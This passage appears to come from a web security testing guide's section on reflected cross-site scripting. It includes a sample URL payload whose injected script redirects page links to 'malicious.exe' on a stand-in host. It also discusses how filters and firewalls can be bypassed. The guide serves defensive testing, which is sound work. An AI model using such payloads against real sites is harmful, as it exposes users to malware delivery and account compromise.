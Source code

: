 ![Alert](images/Alert.png)\
*Figure 4.8.1-2: XSS Example 1*

This indicates that there is an XSS vulnerability and it appears that the tester can execute code of his choice in anybody's browser if he clicks on the tester's link.

#### Example 2

Let's try other piece of code (link):

```txt
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");
AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script>
```

This produces the following behavior:

![XSS Example 2](images/XSS_Example2.png)\
*Figure 4.8.1-3: XSS Example 2*

This will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site he controls.

### Bypass XSS Filters

Reflected cross-site scripting attacks are prevented as the web application sanitizes input, a web application firewall blocks malicious input, or by mechanisms embedded in modern web browsers. The tester must test for vulnerabilities assuming that web browsers will not prevent the attack. Browsers may be out of date, or have built-in security features disabled. Similarly, web application firewalls are not guaranteed to recognize novel, unknown attacks. An attacker could craft an attack string that is unrecognized by the web application firewall.

Thus, the majority of XSS prevention must depend on the web application's sanitization of untrusted user input. There are several mechanisms available to developers for sanitization, such as returning an error, removing, encoding, or replacing invalid input. The means by which the application detects and corrects invalid input is another primary weakness in preventing XSS. A blacklist may not include all possible attack strings, a whitelist may be overly permissive, the sanitization could fail, or a type of input may be incorrectly trusted and remain unsanitized. All of these allow attackers to circumvent XSS filters.
